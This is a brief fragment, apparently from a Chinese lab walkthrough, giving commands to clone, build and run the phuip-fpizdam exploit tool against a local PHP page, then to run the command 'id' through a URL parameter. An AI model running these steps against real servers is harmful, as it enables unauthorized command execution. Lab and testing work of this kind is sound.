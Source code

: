 	>git clone https://github.com/neex/phuip-fpizdam.git
	>cd phuip-fpizdam
	>go get -v && go build
	>go run . http://127.0.0.1/index.php
	http://127.0.0.1/index.php?a=id
	多执行几次
